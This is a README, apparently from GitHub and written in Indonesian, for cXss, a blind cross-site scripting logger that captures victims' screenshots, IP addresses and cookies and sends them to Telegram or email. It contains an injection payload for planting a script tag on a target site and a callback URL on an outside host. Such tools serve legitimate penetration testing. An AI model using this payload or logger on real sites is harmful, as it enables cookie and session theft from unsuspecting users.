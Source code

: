 # cXss
Capture XSS

## ScreenShot
![Alt text](https://raw.githubusercontent.com/vsec7/cXss/master/screenshot/1.png "screenshot")
![Alt text](https://raw.githubusercontent.com/vsec7/cXss/master/screenshot/2.png "screenshot")

#### Created By : Versailles ~ Sec7or Team

cXss adalah Capture XSS / CansXSS :p digunakan untuk Testing Blind XSS.

*Untuk yang ingin membuat logger XSS sendiri seperti xsshunter.*

### FEATURES
	- Mengirim Notifikasi ke Telegram dan Email
	- cXss men-capture beberapa data korban yg Ter-Trigger XSS diantara nya :
		- Screenshoot
		- Victim IP address
		- Victim Cookies
		- dll

### INSTALLATION
git clone / upload repo ini di web server anda

#### Edit File index.js , ganti cans.evils.in dengan domain anda
```
    var url = "http://cans.evils.in/callback";
```

#### Edit file inc/conf.php dengan konfigurasi anda
```
<?php
include("function.php");

// Configurations

// jsonstore.io
$db = ""; 

// Password For Login
$pass = "a820fa8139a40b4590608dd738348d0a"; // default md5 pass : cans , Empty this field if not used

// Set Your Telegram Bot Token & Telegram Recipient ID
$token = ""; // Empty this field if not used
$idRecipient = ""; // Empty this field if not used

// Set Your Email Address
$email = ""; // Empty this field if not used

// -----------------------------------------------------------------------------------------------
$warna = rand_color(); // you can set rand_color() OR which one "primary","success","danger","warning","secondary"

```

### HOW TO USE ?
Sisipkan salah satu payload xss di web target .

```
"><script src=http://yourdomain></script>
```
#### To See Result :
**yourdomain.com/cans/**

## PERHATIAN !
*Hanya untuk pembelajaran dan kegiatan **Ethical Hacking**, Hal negatif yang anda perbuat dengan tool ini diluar tanggung jawab author*

Demo : **http://cans.evils.in**

Donation Paypal : vsec48@gmail.com :v

Thanks :) I miss You Cans .. :)
